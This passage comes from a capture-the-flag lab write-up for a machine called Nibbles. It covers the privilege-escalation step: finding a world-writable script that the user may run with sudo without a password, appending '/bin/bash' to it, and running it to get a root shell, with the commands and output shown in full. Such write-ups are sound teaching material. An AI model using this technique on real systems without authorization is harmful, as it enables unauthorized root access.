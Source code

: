 And we have full access rights to the file:
```
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -al monitor.sh 
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ 
```

But if we take a look into our `sudo` permissions we see the following:
```
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ 
```

We can run the script with `sudo` rights without the usage of a password. That means that we can put anything into that script and run it with root privileges.

To escalate our rights we can add the following content to the script:
```
nibbler@Nibbles:/home/nibbler/personal/stuff$ cp monitor.sh monitor.sh_bak
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "/bin/bash" >> monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ tail monitor.sh

# Unset Variables
unset tecreset os architecture kernelrelease internalip externalip nameserver loadaverage

# Remove Temporary Files
rm /tmp/osrelease /tmp/who /tmp/ramcache /tmp/diskusage
}
fi
shift $(($OPTIND -1))
/bin/bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ 
```

And execute it afterwards to become root:
```
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo ./monitor.sh





/home/nibbler/personal/stuff/monitor.sh: 26: /home/nibbler/personal/stuff/monitor.sh: [[: not found
/home/nibbler/personal/stuff/monitor.sh: 36: /home/nibbler/personal/stuff/monitor.sh: [[: not found
/home/nibbler/personal/stuff/monitor.sh: 43: /home/nibbler/personal/stuff/monitor.sh: [[: not found
root@Nibbles:/home/nibbler/personal/stuff# id
uid=0(root) gid=0(root) groups=0(root)
root@Nibbles:/home/nibbler/personal/stuff# 
```
